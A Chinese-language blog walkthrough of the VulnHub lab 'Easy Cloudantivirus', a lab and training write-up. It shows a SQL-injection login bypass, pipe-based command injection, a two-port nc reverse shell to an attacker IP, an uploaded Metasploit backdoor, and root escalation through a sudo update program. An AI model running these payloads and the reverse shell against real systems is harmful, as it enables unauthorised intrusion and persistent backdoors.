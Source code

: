 ```yaml
---
title: VulnHub靶场 Easy Cloudantivirus
description: VulnHub靶场 Easy Cloudantivirus WP
pubDate: 10 19 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.png?imageSlim
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-1.png?imageSlim)

目标锁定 `192.168.135.205`，对其进行端口扫描，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-2.png?imageSlim)

在目标 IP 下的 8080 端口，有一个 Python 的 WEB 服务，访问页面得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-3.png?imageSlim)

要求填写邀请码进行使用。进行 FUZZ 测试，在测试 `"` 的时候，出现的 sqlite3 报错

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-4.png?imageSlim)

直接把代码爆出来了。

```python
def login():
    password = request.form['password']
    if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
        session['logged_in'] = True
		return 'Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />'
    else:
        return "WRONG INFORMATION"
```

看一下 sql 语句

```sql
select * from code where password="' + password + '"
```

简单构建一下

```sql
select * from code where password="' + " or 1=1# + '"
```

即输入 `" or 1=1#`，进行尝试，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-5.png?imageSlim)

额……换个 `--` 注释试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-6.png?imageSlim)

成功，返回了一个 `ls -l` 的命令结果。说明后端执行了命令，试试管道符

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-7.png?imageSlim)

成功执行命令，我们借此可以反弹 shell，发现目标靶机自带 nc，尝试连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.png?imageSlim)

失败了，可能是版本不对……，想到一个法子

```shell
nc 192.168.135.192 9999 | /bin/bash | nc 192.168.135.192 8888
```

第一个的结果传递给 `/bin/bash`，然后再传递给第二个连接，这样不就另类的实现了 shell 嘛

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-9.png?imageSlim)

成功。不过这样有点麻烦，直接传一个 MSF 马进去

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-10.png?imageSlim)

成功喽。有一个数据库文件，下载下来，啥也没有。

再进行信息收集的时候，发现在 `/home/scanner` 下，有一个可执行的，有 sudo 权限的，属主为 root 用户的 c 源文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-11.png?imageSlim)

查看一下源码内容

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-12.png?imageSlim)

这是一个更新脚本，要求传递两个参数，拿 nc 简单试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-14.png?imageSlim)

查看反弹结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-13.png?imageSlim)

成功得到 root 权限，然后再传 MSF 马，得到 root 权限的 MSF 后门

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-15.png?imageSlim)

成功拿到 root 权限
